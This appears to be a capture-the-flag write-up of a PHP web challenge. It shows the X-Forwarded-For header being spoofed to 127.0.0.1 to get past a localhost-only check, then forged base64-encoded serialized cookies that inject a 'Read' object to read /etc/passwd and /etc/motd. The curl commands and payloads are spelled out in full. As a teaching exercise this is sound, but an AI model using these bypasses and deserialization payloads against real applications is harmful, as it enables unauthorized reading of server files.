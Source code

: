 ## **Message of the Day writeup**

1. Main page is unaccessible, 403 error.

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture7.png)

2. Firstly, we need to find "backup" directory, which contains application's source code.

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture8.png)

3. 

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture9.png)

Application allows access only from 127.0.0.1 (localhost), but also checking if client went through proxy (X-Forwarded-For header). This check is easy to pass:

    curl -H “X-Forwarded-For: 127.0.0.1” http://localhost:8888/

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture10.png)

4. Now we have cookies:

client=Tzo2OiJDbGllbnQiOjI6e3M6MTI6IgBDbGllbnQAbmFtZSI7czo1OiJHdWVzdCI7czoxMToiAENsaWVudAB0bXAiO086NzoiTWVzc2FnZSI6MDp7fX0=

Let's decode them:

    O:6:"Client":2:{s:12:"�Client�name";s:5:"Guest";s:11:"�Client�tmp";O:7:"Message":0:{}}

Here we have serialized object of "Client" class and two variables of that class: "name" and "tmp".

5. 

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture11.png)

In "client.php" code we see "include('read.php')". It means that for "tmp" variable we can assign object of "Read" class instead of "Message".

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture12.png)

Using the "print" function from class "Read" we can access local files.
So, payload should be something like this:

    O:6:"Client":2:{s:12:"Clientname";s:5:"Guest";s:11:"Clienttmp";O:4:"Read":1:{s:15:"Readfile_name";s:11:"/etc/passwd";}}

I'm using PHP private variables here. So, if we have private variable of "Client" class named "name", then in serialized object her name will look like a composition of class name and variable: "Clientname". Besides, before class name and variable name I'll put the null character "\0". I'll create my payload and encode it using "base64_encode function" of PHP:

    echo base64_encode("O:6:\"Client\":2:{s:12:\"\0Client\0name\";s:5:\"Guest\";s:11:\"\0Client\0tmp\";O:4:\"Read\":1:{s:15:\"\0Read\0file_name\";s:11:\"/etc/passwd\";}}");

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture13.png)

Let's put this result into the Cookies:

    curl -H "X-Forwarded-For: 127.0.0.1" -H "Cookie: client=Tzo2OiJDbGllbnQiOjI6e3M6MTI6IgBDbGllbnQAbmFtZSI7czo1OiJHdWVzdCI7czoxMToiAENsaWVudAB0bXAiO086NDoiUmVhZCI6MTp7czoxNToiAFJlYWQAZmlsZV9uYW1lIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fX0=" -i http://localhost:8888/

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture14.png)

6. All that's left is to find the flag. Name of the task gives a hint on where to search for it (Message of the Day, /etc/motd):


>


    echo base64_encode("O:6:\"Client\":2:{s:12:\"\0Client\0name\";s:5:\"Guest\";s:11:\"\0Client\0tmp\";O:4:\"Read\":1:{s:15:\"\0Read\0file_name\";s:9:\"/etc/motd\";}}");

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture15.png)

Let's put this into the Cookie header:


    curl -H "X-Forwarded-For: 127.0.0.1" -H "Cookie: client=Tzo2OiJDbGllbnQiOjI6e3M6MTI6IgBDbGllbnQAbmFtZSI7czo1OiJHdWVzdCI7czoxMToiAENsaWVudAB0bXAiO086NDoiUmVhZCI6MTp7czoxNToiAFJlYWQAZmlsZV9uYW1lIjtzOjk6Ii9ldGMvbW90ZCI7fX0=" -i http://localhost:8888/

![enter image description here](https://raw.githubusercontent.com/grazieragazzi/GRZblog/master/Picture16.png)

Flag: flag{0h_y0u_f0und_m3_51r!}
